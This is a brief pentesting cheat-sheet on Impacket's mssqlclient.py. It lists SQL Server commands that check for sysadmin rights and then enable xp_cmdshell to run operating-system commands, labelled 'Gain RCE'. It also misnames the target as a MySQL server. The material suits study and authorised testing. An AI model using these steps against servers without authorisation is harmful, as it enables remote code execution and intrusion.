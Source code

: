# Impacket's mssqlclient.py

We can use this tool to interact with mysql server using login credentials and then execute sql quieries.



### Check if Current SQL user has sysadmin Privileges

```
SELECT IS_SRVROLEMEMBER('sysadmin')
```



### Gain RCE

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

